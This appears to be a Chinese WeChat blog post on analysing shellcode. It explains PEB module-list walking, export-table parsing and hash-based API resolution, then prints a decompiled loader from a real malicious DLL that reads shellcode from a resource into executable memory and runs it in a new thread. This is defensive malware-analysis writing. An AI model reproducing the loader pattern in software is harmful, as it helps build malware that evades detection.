 #  shellcode分析技巧

原创 Pearce  [ 3072 ](javascript:void\(0\);)

**3072** ![]()

微信号 gh_02e64d74f88d

功能介绍 威胁狩猎，漏洞挖掘

____

__

收录于话题 #样本分析 ,4个

#### 概述

##### 0x00

一般情况下shellcode会首先通过PEB定位到_ **PEB_LDR_DATA** （+0xC）结构，然后从该结构中取出一条链表，可以是
**InLoadOrderModuleList** （+0xC）可以是 **InMemoryOrderModuleList** (+0x14)可以是
**InInitializationModuleList** （+0x1c），之后通过遍历这条双向链表来解析 **LDR** **DATA_**
**TABLE_** **ENTRY**
结构体，从该结构体中提取对应模块的长度（+0x2c）和名称(+0x30)。通过比较模块长度和字符串值来找到需要导入的模块的基址。

##### 0x01

之后解析模块对应的PE文件，首先定位到DataDirectory结构体数组，然后确定导出表RVA，之后通过基址算出导出表地址，然后确定导出函数序号表的RVA(+0x24)，导出函数名称表的RVA（+x20），导出函数地址表的RVA（+0x1c），导出函数个数（+0x18）。一般情况下shellcode这里通过比较函数的哈希来定位模块的导出函数。

##### 0x02

最后,分析shellcode时一般只要对其中的call和跳转下断点就能迅速搞清楚其大致的功能了。

#### 例子

这是某组织使用的样本。该样本通过白加黑调用恶意DLL，该DLL从资源段中读取shellcode来执行一个新线程。

  

    
          1. char sub_10001BF0()
    
      2. {
    
      3.   HMODULE v0; // edi
    
      4.   HRSRC v1; // esi
    
      5.   HGLOBAL v2; // ebx
    
      6.   DWORD v3; // edi
    
      7.   const void *v4; // ebx
    
      8.   DWORD (__stdcall *v5)(LPVOID); // eax
    
      9.   DWORD (__stdcall *v6)(LPVOID); // esi
    
      10.   HANDLE v7; // eax
    
      11.   DWORD ThreadId; // [esp+4h] [ebp-4h]
    
      12.   
    
    
      13.   v0 = hModule;
    
      14.   InterlockedCompareExchange(&Destination, 1, 2);
    
      15.   if ( Destination == 1 )
    
      16.   {
    
      17.     Destination += 2;
    
      18.     v1 = FindResourceExW(v0, (LPCWSTR)274, (LPCWSTR)365, 1033u);
    
      19.     GetLastError();
    
      20.     if ( v1 )
    
      21.     {
    
      22.       v2 = LoadResource(v0, v1);
    
      23.       if ( v2 )
    
      24.       {
    
      25.         v3 = SizeofResource(v0, v1);
    
      26.         if ( v3 )
    
      27.         {
    
      28.           v4 = LockResource(v2);
    
      29.           if ( v4 )
    
      30.           {
    
      31.             v5 = (DWORD (__stdcall *)(LPVOID))VirtualAlloc(0, v3, 0x3000u, 0x40u);
    
      32.             v6 = v5;
    
      33.             if ( v5 )
    
      34.             {
    
      35.               memmove(v5, v4, v3);
    
      36.               ThreadId = 0;
    
      37.               v7 = CreateThread(0, 0x400000u, v6, 0, 0, &ThreadId);
    
      38.               WaitForSingleObject(v7, 0xFFFFFFFF);
    
      39.               VirtualFree(v6, v3, 0x8000u);
    
      40.             }
    
      41.           }
    
      42.         }
    
      43.       }
    
      44.     }
    
      45.     ExitProcess(0);
    
      46.   }
    
      47.   return 1;
    
      48. }
    
    
    

  

shellcode执行流程和概述大同小异
首先定位到双向链表![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210901090928.png)

然后解析PE文件![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210901090929.png)

循环比较hash值![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210901090930.png)

不同之处在于在循环比较的过程中有特别多的混淆![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210901090932.png)

之后会一块一块的导入需要的函数，比如通过CreateThread执行一个线程开启一个服务，从ProgramData目录下读入一个Json文件到内存中通过CryptDecrypt来进行解密。解密出来的PE文件为该组织常用Beacon.dll

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210901090933.png)

后续shellcode直接从"MZ"开始执行，并将导出函数 **_execute** 代码块复制到一块新的内存中跳转执行。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210901090934.png)

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

shellcode分析技巧

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

